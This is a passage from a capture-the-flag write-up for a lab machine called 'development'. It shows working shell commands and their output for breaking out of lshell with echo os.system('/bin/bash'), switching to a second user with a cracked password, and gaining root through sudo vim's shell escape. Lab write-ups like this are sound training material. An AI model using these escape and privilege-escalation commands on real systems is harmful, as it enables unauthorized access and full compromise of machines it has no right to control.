 Googling `lshell.py escape` on the internet will lead us to this website: https://www.aldeid.com/wiki/Lshell. Under the Security section, there's a way to bypass lshell with os.system by using the `echo` command. Doing this will bypass the restricted shell and we are free to use whatever commands:  

```
intern:~$ echo os.system('/bin/bash')
intern@development:~$ id
uid=1002(intern) gid=1006(intern) groups=1006(intern)
intern@development:~$ cat local.txt 
Congratulations on obtaining a user shell. :)
intern@development:~$
```

## Privileged Escalation 

#### Intern to Patrick 

This is easy. We crack the password earlier with the online tool. Just switch user and ta-da !

```
intern@development:~$ su patrick 
Password: 
patrick@development:/home/intern$ id
uid=1001(patrick) gid=1005(patrick) groups=1005(patrick),108(lxd)
```

#### Patrick to Root 

I believe there's a few way on getting root from here. Running the command `id` show us that patrick is in `lxd` group. Running the command `sudo -l` tell us that patrick can run `vim` and `nano` as sudo too: 

```
patrick@development:/home/intern$ sudo -l
Matching Defaults entries for patrick on development:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User patrick may run the following commands on development:
    (ALL) NOPASSWD: /usr/bin/vim
    (ALL) NOPASSWD: /bin/nano
patrick@development:/home/intern$
```

Since `vim` can run as sudo, i will get root by simply doing this: 

```
patrick@development:/home/intern$ sudo vim -c ':!/bin/bash'

root@development:/home/intern# id
uid=0(root) gid=0(root) groups=0(root)
root@development:/home/intern# cd /root
root@development:/root# ls
iptables-rules  lshell-0.9.9  proof.txt  smb.conf  tcpdumpclock.sh
root@development:/root# cat proof.txt 
Congratulations on rooting DEVELOPMENT! :)
root@development:/root#
```
